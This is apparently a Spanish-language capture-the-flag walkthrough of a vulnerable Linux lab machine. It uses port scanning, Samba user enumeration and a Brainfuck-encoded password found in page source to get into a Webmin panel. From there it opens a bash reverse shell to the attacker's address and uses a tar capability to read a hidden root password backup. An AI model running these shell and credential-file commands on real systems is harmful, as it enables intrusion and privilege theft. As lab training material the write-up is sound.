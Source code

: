 

reconocimiento de la red:

![[Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Ping y ver TTL.png]]

Conedtividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Acccedemos al puerto 10000:
![[Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (segun mensaje)
y vemos un panel de Login:
![[Panel de Login.png]]

Revisameos el puerto 20000:
![[Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[User Flag from the machine.png]]


nuestro usuario es cyber
![[User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
![[Tratamiento de la TTY.png]]
tenemos que escalar privilegios:
sudo -l no funciona
![[Escalado sudo -l.png]]

Vemos las capabilities:
![[Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Acceso root.png]]
Root flag:
![[Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




